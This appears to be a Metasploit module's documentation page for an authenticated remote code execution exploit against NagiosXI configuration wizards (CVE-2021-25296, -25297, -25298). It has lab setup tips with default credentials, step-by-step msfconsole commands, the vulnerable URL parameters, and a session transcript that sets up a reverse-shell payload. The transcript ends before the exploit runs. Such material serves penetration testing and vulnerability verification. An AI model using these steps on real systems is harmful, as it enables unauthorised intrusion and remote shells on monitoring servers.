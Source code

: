 ### Troubleshooting Installation
- NagiosXI doesn't show it's ip address
  - Login as the `root` user with `nagiosxi` as the password, and run `ip a` to get the IP
  - Ensure it's on a network accessible from your attacking machine (e.g. NAT network instead of Bridged)
- NagiosXI fails when attempting to login manually with an "NSP Sorry Dave" message
  - The NagiosXI installation is likely out of sync with its date/time.
  - Set it manually with `timedatectl set-ntp false` and `timedatectl set-time '2023-02-06 17:34:00'` but with the actual time and date

## Verification Steps
- [ ] Start `msfconsole`
- [ ] `use exploit/linux/http/nagios_xi_configwizards_authenticated_rce`
- [ ] `set RHOSTS TARGET_IP`
- [ ] `set RPORT 443`
- [ ] `set SSL true`
- [ ] `set USERNAME USER`
- [ ] `set PASSWORD PASSWORD`
- [ ] `set TARGET_CVE CVE-2021-25296`
- [ ] `set LHOST YOUR_IP`
- [ ] `set LPORT YOUR_LISTENING_PORT`
- [ ] `run`

## Options

### USERNAME
A valid NagiosXI username, which can be for an administrator or regular user.

### PASSWORD
The password for the provided NagiosXI username.

### TARGET_CVE
The CVE to target. Each CVE corresponds to a specific target:
- CVE-2021-25296: `windowswmi` configuration wizard RCE via the `plugin_output_len` URL parameter
- CVE-2021-25297: `switch` configuration wizard RCE via the `ip_address` URL parameter.
  Note that on versions 5.5.7 and prior this parameter is named `address` instead.
- CVE-2021-25298: `cloud-vm` configuration wizard RCE via the `ip_address` URL parameter.
  Note that on versions 5.5.7 and prior this parameter is named `address` instead.

Note that CVE-2021-25298 is in the `cloud-vm` configuration wizard but we set the `wizard`
URL parameter value to `digitalocean` in order to make sure we use this wizard; there are
potentially other values that could be used here.

## Scenarios

### CentOS7 Running NagiosXI 5.7.5 (Official OVA) - CVE-2021-25296
```
msf > use exploit/linux/http/nagios_xi_configwizards_authenticated_rce
[*] Using configured payload cmd/unix/reverse_perl_ssl
msf exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set RHOST 192.168.153.132
RHOST => 192.168.153.132
msf exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set LHOST 192.168.153.128
LHOST => 192.168.153.128
msf exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set FINISH_INSTALL true
FINISH_INSTALL => true
msf exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set USERNAME nagiosadmin
USERNAME => nagiosadmin
msf exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set PASSWORD nagiosadmin
PASSWORD => nagiosadmin
msf exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set RHOST 192.168.153.132
```